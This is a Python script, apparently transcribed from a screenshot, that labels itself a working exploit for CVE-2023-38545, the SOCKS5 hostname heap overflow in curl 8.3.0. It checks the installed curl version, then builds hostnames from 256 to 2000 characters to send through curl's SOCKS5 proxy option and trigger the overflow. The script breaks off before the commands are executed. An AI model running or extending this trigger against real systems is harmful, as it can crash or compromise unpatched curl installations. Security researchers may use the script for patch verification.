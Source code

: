 import subprocess
import time
import os

def demonstrate_vulnerability():
    """Demonstrate the vulnerability with clear evidence"""
    print("[*] CVE-2023-38545 Primary Working Exploit")
    print("[*] SOCKS5 Hostname Buffer Overflow in curl 8.3.0")
    print()
    
    # Verify curl version
    try:
        version_output = subprocess.run(['curl', '--version'], capture_output=True, text=True)
        version_line = version_output.stdout.split('\n')[0]
        print(f"[*] Target: {version_line}")
        
        if '8.3.0' not in version_line:
            print("[!] Warning: This exploit targets curl 8.3.0")
        print()
    except:
        print("[!] Could not verify curl version")
        return False
    
    # Test the vulnerability trigger
    print("[*] Testing vulnerability trigger conditions...")
    
    # Create test hostnames of different lengths
    test_cases = [
        (255, "Maximum safe length"),
        (256, "Triggers vulnerability - minimal overflow"),
        (500, "Medium overflow"),
        (1000, "Large overflow - clear vulnerability"),
        (2000, "Very large overflow")
    ]
    
    vulnerability_confirmed = False
    
    for length, description in test_cases:
        print(f"\n[*] Test case: {length} characters ({description})")
        
        # Create hostname
        hostname = "a" * (length - 4) + ".com"
        
        # Test with curl using non-existent SOCKS5 proxy
        cmd = [
            'curl', '-v',
            '--socks5-hostname', '127.0.0.1:9999',
            f'http://{hostname}/',
            '--connect-timeout', '3',
            '--max-time', '5'
        ]
        